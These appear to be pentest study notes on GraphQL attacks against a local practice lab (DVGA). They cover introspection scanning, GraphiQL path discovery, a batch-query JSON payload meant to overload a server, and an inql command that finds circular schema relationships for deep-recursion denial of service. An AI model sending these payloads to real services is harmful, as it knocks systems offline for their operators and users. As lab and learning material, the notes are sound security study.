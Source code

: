 ```python
v1/graphiql
console
query
graphql/console
altair

```


## 1 - Scan for *introspection*
- When introspection is enabled, the entire GraphQL schema can be retrieved with a single query.
https://gist.githubusercontent.com/craigbeck/b90915d49fda19d5b2b17ead14dcd6da/raw/e50819812a7a8a95b303ac0ea1464e2679e3e4bc/introspection-query.graphql

- Because the response of introspecion is overwhelming, We use [GraphQL-voyager](https://ivangoncharov.github.io/graphql-voyager/). for *nodes* and *edges* view  

- copy the response data and paste it into Graphql-voyager’s editor.

- we should also check if the *GraphiQL* is enabled. which allows constructing queries in a friendly user interface.

-  GraphiQL is usually found in paths such as: /graphiql or \_\_graphiql

# DoS

## Batch Queries 

we can only send it using *Burp* or *curl* 
```json
[
{"query" :"query {systemHealth }" },
{"query" :"query {systemHealth }" }
]
```

this shows that batch queries are enabled 
```json
[{"data":{"systemHealth":"System Load: 0.00\n"}},{"data":{"systemHealth":"System Load: 0.00\n"}}]
```

Now you can send 100 queries and overload the system

##  Deep recursion query attack

![[Capture d’écran 2023-07-29 003522.png]]

`PasteObject` and `OwnerObject` cross reference each other so let’s use that.

**Automatically** detect circular relationships in the schema:

```python
inql -t http://127.0.0.1:5013/graphql --generate-cycles -o dvga_cycles
```
